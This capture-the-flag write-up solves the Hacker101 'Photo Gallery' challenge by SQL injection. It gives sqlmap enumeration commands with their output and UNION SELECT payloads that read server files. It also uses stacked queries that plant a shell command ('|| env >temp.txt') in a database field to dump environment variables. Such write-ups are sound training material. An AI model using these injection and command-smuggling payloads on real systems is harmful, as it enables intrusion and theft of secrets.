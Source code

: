 # Photo Gallery

## Description
This write up will show how to solve the CTF for "Photo Gallery"

**Difficulty:** Moderate

Hints are not being provided for multiple reasons:</br>
1. It is better to figure it out yourself and I don't want to give spoilers, especially if you don't need one
2. It is only possible to get a hint every once in a while, i.e. it is not possible to get all the hints one after another. This will take too much time to "wait" for all the hints

## Solution 1st flag
The pictures are retrieved with /fetch?id=1, 2, or 3, however, 3 doesn't show any picture data.</br>
As due to id=x, it means something is retrieved, probably from a database.</br>
Using SQLMap, it shows that id might be vulnerable with a boolean-based blind and/or a time-based blind SQLi.</br>

First enumerate the database: `sqlmap -u https://ca0d9cc72e5f2c20b69dd920042e6bdb.ctf.hacker101.com/fetch?id=1 --dbs`</br>
This will return the following:</br>
```
[23:11:59] [INFO] retrieved: 4
[23:12:07] [INFO] retrieved: information_schema
[23:15:22] [INFO] retrieved: level5
[23:16:43] [INFO] retrieved: mysql
[23:17:34] [INFO] retrieved: performance_schema
available databases [4]:
[*] information_schema
[*] level5
[*] mysql
[*] performance_schema
```

level5 will be the database name<br>

As a second step, try to enumerate the tables: `sqlmap -u https://ca0d9cc72e5f2c20b69dd920042e6bdb.ctf.hacker101.com/fetch?id=1 --method=GET --dump -D level5`</br>
There are 2 tables:</br>
```
[23:34:11] [INFO] retrieved: 2
[23:34:22] [INFO] retrieved: albums
[23:35:19] [INFO] retrieved: photos
```

In the same step, it enumerate the columns in the tables, first photos:</br>
```
[23:36:19] [INFO] fetching columns for table 'photos' in database 'level5'
[23:36:19] [INFO] retrieved: 4
[23:36:29] [INFO] retrieved: id
[23:36:44] [INFO] retrieved: title
[23:37:25] [INFO] retrieved: filename
[23:38:31] [INFO] retrieved: parent
```

It will continue, with showing the contents of the table photos:</br>
```
[23:39:31] [INFO] fetching entries for table 'photos' in database 'level5'
[23:39:31] [INFO] fetching number of entries for table 'photos' in database 'level5'
[23:39:31] [INFO] retrieved: 3
[23:39:39] [INFO] retrieved: files/adorable.jpg
[23:42:43] [INFO] retrieved: 1
[23:42:57] [INFO] retrieved: 1
[23:43:05] [INFO] retrieved: Utterly adorable
[23:46:02] [INFO] retrieved: files/purrfect.jpg
[23:49:39] [INFO] retrieved: 2
[23:49:55] [INFO] retrieved: 1
[23:50:04] [INFO] retrieved: Purrfect
[23:51:31] [INFO] retrieved: <<here will be the flag, with the flag tags>>
[00:04:22] [INFO] retrieved: 3
[00:04:37] [INFO] retrieved: 1
[00:04:50] [INFO] retrieved: Invisible
```

And part of that information is that it contains the flag!

## Solution 2nd flag
The third hint, states to look at a config file for the uwsgi-nginx-flask-docker image.</br>
This will be the uwsgi.ini file, hence running the following endpoint in Burp: `/fetch?id=0+UNION+SELECT+'uwsgi.ini`.</br>

This will show the following:
```
[uwsgi]
module = main.py
callable = app
```

Main.py is the main application, hence we can run the same endpoint, but with main.py: `/fetch?id=0+UNION+SELECT+'main.py`.</br>
At the bottom it will show the flag.

## Solution 3rd flag
When running a similar query as for the first flag:</br>
`sqlmap -u https://1d1cc8435c838e970ef456944e8e8b69.ctf.hacker101.com/fetch?id=1 --method=GET --dump -D level5 -T photos -p id --code=200 --ignore-code=500 --skip-waf --thread=2 -o`
This will create a strange filename for the file with id=3.</br>

The file cannot be read straight from the files directory, but it needs to be moved to the database as filename where id=3:</br>
`/fetch?id=1;%20update%20photos%20set%20filename=%27*%20||%20ls%20./files%20%3Etemp.txt%20%27%20where%20id=3;%20commit;%20--`

This is the moment it is possible to retrieve the data from the database:</br>
`/fetch?id=1;%20update%20photos%20set%20filename=%27*%20||%20env%20%3Etemp.txt%27%20where%20id=3;%20commit;%20--`

To read the created temp file with the environment variables:</br>
`/fetch?id=0+UNION+SELECT+'temp.txt'`

This will show all the flags in this CTF.

